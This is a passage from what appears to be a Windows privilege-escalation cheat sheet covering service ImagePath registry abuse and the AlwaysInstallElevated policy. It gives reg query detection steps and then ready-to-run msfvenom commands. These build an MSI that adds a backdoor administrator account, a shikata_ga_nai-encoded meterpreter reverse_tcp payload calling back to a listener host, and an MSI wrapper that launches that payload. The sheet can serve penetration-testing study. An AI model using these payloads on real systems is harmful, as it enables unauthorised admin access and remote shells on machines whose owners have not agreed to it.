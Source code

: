 3. Restart the computer to restart the service

   ```text
   shutdown /r /t 0
   ```

4. Prepare handler `exploit/multi/handler`

Alernatively

**Powershell**

```text
New-ItemProperty -Path HKLM:SYSTEM\CurrentControlSet\services\<service_name> -Name ImagePath -Value <value> -PropertyType ExpandString -Force
```

## Registry - AlwaysInstalledElevated

```text
HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
```

### Detection

```text
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

If you got an error like `ERROR: The system was unable to find the specified registry key or value.`. the policy is not enabled and the system is not vulnearble

If you got `AlwaysInstallElevated REG_DWORD 0x1`. the policy is enabled.

### Exploitation

We can generate a .msi package and run it

Option 1. add a local admin to our target machine

```text
msfvenom -f msi-nouac -p windows/adduser USER=eviladmin PASS=P4ssw0rd@ -o add_user.msi
```

Option 2. Geneate an .msi package and use .msi package to run a .exe payload

Generate the payload.exe

```text
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=192.168.2.60 LPORT=8989 -f exe -o Payload.exe
```

Generate the msi package that runs the payload.exe

```text
msfvenom -f msi-nouac -p windows/exec cmd="C:\Users\testuser\AppData\Local\Temp\Payload.exe" > malicious.msi
```
